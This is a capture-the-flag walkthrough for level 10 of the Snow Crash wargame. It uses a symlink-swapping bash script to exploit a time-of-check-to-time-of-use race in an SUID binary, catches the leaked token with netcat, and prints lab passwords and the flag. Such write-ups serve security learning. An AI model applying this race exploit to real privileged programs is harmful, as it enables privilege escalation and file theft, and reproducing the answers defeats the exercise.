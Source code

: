 # Level10

Login as `level10`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level10
level10@192.168.1.64's password: s5cAJpM8ev6XHw998pRWG728z
```

As in some of the previous levels, we have a `SUID binary` and a `token` file:

```bash
level10@SnowCrash:$ ls -l
total 16 -rwsr-sr-x+ 1 flag10 level10 10817 Mar 5 2016 level10
-rw------- 1 flag10 flag10 26 Mar 5 2016 token
level10@SnowCrash:$ ./level10
./level10 file host sends file to host if you have access to it
level10@SnowCrash:$ ./level10 token localhost
You don't have access to ./token
level10@SnowCrash:$ cat token
cat: token: Permission denied
```

Executing it we notice that it sends file to host if we have access to it.

Using `gdb` and `r2` we notice that `access` command/call is used. And also, `port 6969` is also used.

`ltrace` can also be used to intercept dynamic library calls as well as system calls executed by the program.

```bash
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4) = -1
printf("You don't have access to %s\n", "token"You don't have access to token) = 31
+++ exited (status 31) +++
```

`man access` already warns us about the use of this call and its security concerns:


    NOTES
       Warning:  Using  these  calls  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the
       user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In
       the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)


After investigating on the net, mainly through StackOverflow, we can see there a discussion about `TOCTOU` race (Timr of Check to Time of Update):

    A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls.

So we implement our own simple `TOCTOU` script:

```bash
level10@SnowCrash:~$ vi /tmp/toctou.sh
#!/bin/bash

TOKEN=/home/user/level10/token
SYMLINK=/tmp/symlink
EMPTYFILE=/tmp/empty
TMPFILE=$(/bin/mktemp)

/usr/bin/touch $EMPTYFILE
/bin/ln -s $TOKEN $SYMLINK

while true
do
	/bin/mv $SYMLINK $TMPFILE
	/bin/mv $EMPTYFILE $SYMLINK
	/bin/mv $TMPFILE $EMPTYFILE
done
```

Set execution bits and run the script.

```bash
level10@SnowCrash:~$ chmod +x /tmp/toctou.sh
level10@SnowCrash:~$ /tmp/toctou.sh &
```

Listen on `6969 port` and print non-matching lines  `grep -v ".*( )*."`  -> regex expression that matches any string containing zero or more characters followed by zero or more spaces and then any character.

```bash
level10@SnowCrash:~$ nc -lk 6969 | grep -v ".*( )*." &
```

Run the binary in a while loop and wait for the script to get the passwor from the token file. Might take a while.

```bash
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink 127.0.0.1; done &>/dev/null
woupa2yuojeeaaed06riuj63c
```

Finally log as `flag10` and get the flag:

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```